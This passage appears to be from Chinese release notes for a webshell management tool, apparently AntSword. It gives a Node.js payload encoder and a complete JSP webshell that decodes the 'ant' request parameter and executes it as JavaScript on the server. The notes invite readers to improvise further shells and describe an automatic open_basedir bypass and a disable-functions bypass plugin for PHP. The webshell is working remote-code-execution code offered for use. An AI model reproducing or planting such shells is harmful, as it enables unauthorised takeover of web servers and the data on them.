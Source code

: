 ```js
'use strict';

module.exports = (pwd, data) => {
  data[pwd] = Buffer.from(data['_']).toString('base64');
  delete data['_'];
  return data;
}
```

对应 WebShell 如下:

```jsp
<%!
public byte[] base64Decode(String str) throws Exception {
  Class base64;
  byte[] value = null;
  try {
    base64=Class.forName("sun.misc.BASE64Decoder");
    Object decoder = base64.newInstance();
    value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] {String.class }).invoke(decoder, new Object[] { str });
  } catch (Exception e) {
    try {
      base64=Class.forName("java.util.Base64");
      Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
      value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { str });
    } catch (Exception ee) {}
  }
  return value;
}
%>
<%
  try {
    javax.script.ScriptEngine engine = new javax.script.ScriptEngineManager().getEngineByName("js");
    engine.put("request", request);
    engine.put("response", response);
    engine.eval(new String(base64Decode(request.getParameter("ant"))));
  } catch (Exception e) {
    out.println("Error:// "+e.toString());
  }
%>
```

请自行对照最基础的 WebShell 样例自由发挥 :)

* PHP/PHP4 类型增加 Bypass open_basedir, 自动尝试

> 利用的是 `chdir('..');` 方式, 仅在目标配置了 open_basedir 后才会自动尝试

**该功能会影响之前版本 PHP Bypass DisableFunc 插件, 请及时更新插件**

### 虚拟终端


[medicaean-github]: https://github.com/Medicean
[peablog-github]: https://github.com/peablog
[loveshell-github]: https://github.com/loveshell
[Lupino-github]: https://github.com/Lupino